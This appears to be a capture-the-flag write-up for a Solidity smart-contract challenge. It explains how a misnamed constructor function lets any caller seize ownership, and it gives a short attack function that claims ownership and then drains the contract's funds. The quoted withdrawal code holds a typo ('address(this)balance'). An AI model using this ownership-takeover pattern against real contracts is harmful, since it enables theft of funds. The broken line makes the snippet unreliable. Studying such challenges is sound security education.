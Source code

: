 # Requirements

- Claim ownership of the contract
- Reduce its balance to 0

# Attack explanation

To claim ownership, we need to search places where the owner is set and we could exploit some vulnerability. Fal1out function is ideal for this:

```
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

In this way, we will be able to claim contract ownership and then collect all allocations using collectAllocations()

```
function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this)balance);
}
```

# Attack function

We could solve the challenge by just using the following attack function:

```
function attack() public payable {
    // Claim ownership via fal1out function.
    vulnerableScAddress.call(abi.encodeWithSignature("Fal1out()"));

    // Drain funds via collectAllocations.
    vulnerableScAddress.call(
        abi.encodeWithSignature("collectAllocations()")
    );
}
```
